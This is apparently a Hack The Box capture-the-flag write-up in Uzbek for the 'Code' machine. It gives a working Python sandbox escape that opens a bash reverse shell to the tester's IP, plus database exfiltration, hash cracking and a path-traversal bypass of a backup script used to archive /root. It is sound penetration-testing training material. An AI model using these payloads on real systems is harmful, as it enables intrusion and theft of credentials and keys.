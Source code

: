 # Code
Link: https://app.hackthebox.com/machines/Code

# Razvetka
Port Scanning:
```
┌─[✗]─[me262@parrot]─[~/Downloads]
└──╼ $nmap -sV 10.10.11.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-19 14:49 +05
Nmap scan report for 10.10.11.62
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

5000 portda veb interfeysli Python Online Compiler bor ekan, biz zararli kodni ishga tushirmqochimiz. 
Biroq yaxshi himoyalangan, **"Use of restricted keywords is not allowed."**.
Biroq ushbu kod orqali yechim oldim:
```
(1).__class__.__base__.__subclasses__()[317](
["bash", "-c", "bash -i >& /dev/tcp/10.10.14.39/4444 0>&1"]
)
```

Reverse shellni qabul qildim.
```
┌[parrot]─[15:28-19/07]─[/home/me262/Downloads]
└╼me262$nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.62 50124
bash: cannot set terminal process group (14409): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$ ls
ls
app.py
instance
__pycache__
static
templates
```

user.txt'ni qo'lga kiritish.
```
app-production@code:~/app$ cd ..
cd ..
app-production@code:~$ ls
ls
app
user.txt
app-production@code:~$ cat user.txt
cat user.txt
8d5d5e29c9c419d0388a5ed903c34a2c
app-production@code:~$ 
```
Bizda source code bor keling uni o'rganib chiqamiz.
Databasega  nazar solamiz.
```
app-production@code:~/app/instance$ ls
ls
database.db
```
Keling yuklab olamiz.
Server:
```
app-production@code:~/app/instance$ python3 -m http.server 8001
python3 -m http.server 8001
```
Hacker:
```
┌[parrot]─[15:41-19/07]─[/home/me262/HTB]
└╼me262$wget 10.10.11.62:8001/database.db
--2025-07-19 15:41:45--  http://10.10.11.62:8001/database.db
Connecting to 10.10.11.62:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16384 (16K) [application/octet-stream]
Saving to: ‘database.db’

database.db                                     100%[=====================================================================================================>]  16.00K  --.-KB/s    in 0.09s   

2025-07-19 15:41:46 (171 KB/s) - ‘database.db’ saved [16384/16384]
```
Ma'lumotlar bazasidan topilgan ma'lumot:
```
martin
3de6f30c4a09c27fc71932bfc68474be
```
Bizda parol hashi bor keling uni CrackStationdan sinab ko'ramiz.
Parol: nafeelswordsmaster
Ana endi martin useriga o'tamiz.
```
app-production@code:~/app$ su martin
su martin
Password: nafeelswordsmaster
python3 -c 'import pty; pty.spawn("/bin/bash")'

martin@code:/home/app-production/app$ 
```

# Privilage Escalation
Imkoniyatlar:
```
martin@code:~/backups$ sudo -l
sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

Root.txt'ni olish

Keling /root papkasini ziplab o'zimizga olamiz.
```
martin@code:~$ cat task.json
{
        "destination": "/home/martin/",
        "multiprocessing": true,
        "verbose_log": true,
        "directories_to_archive": [
                "/home/....//root/"
        ]
}
martin@code:~$ sudo /usr/bin/backy.sh task.json 
2025/07/19 11:18:57 🍀 backy 1.2
2025/07/19 11:18:57 📋 Working with task.json ...
2025/07/19 11:18:57 💤 Nothing to sync
2025/07/19 11:18:57 📤 Archiving: [/home/../root]
2025/07/19 11:18:57 📥 To: /home/martin ...
2025/07/19 11:18:57 📦
tar: Removing leading `/home/../' from member names
/home/../root/
/home/../root/.local/
/home/../root/.local/share/
/home/../root/.local/share/nano/
/home/../root/.local/share/nano/search_history
/home/../root/.selected_editor
/home/../root/.sqlite_history
/home/../root/.profile
/home/../root/scripts/
/home/../root/scripts/cleanup.sh
/home/../root/scripts/backups/
/home/../root/scripts/backups/task.json
/home/../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/../root/scripts/database.db
/home/../root/scripts/cleanup2.sh
/home/../root/.python_history
/home/../root/root.txt
/home/../root/.cache/
/home/../root/.cache/motd.legal-displayed
/home/../root/.ssh/
/home/../root/.ssh/id_rsa
/home/../root/.ssh/authorized_keys
/home/../root/.bash_history
/home/../root/.bashrc
```

Ushbu tar fayl paydo bo'ldi.
Uni endi ochib root.txt'ni o'qiymiz.
```
martin@code:~$ tar xvjf code_home_.._root_2025_July.tar.bz2
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
martin@code:~$ cat root/root.txt
f71692adb54649ff24bb7244f9e6745a
```

# Nafas olar ekanman, davom etaman...
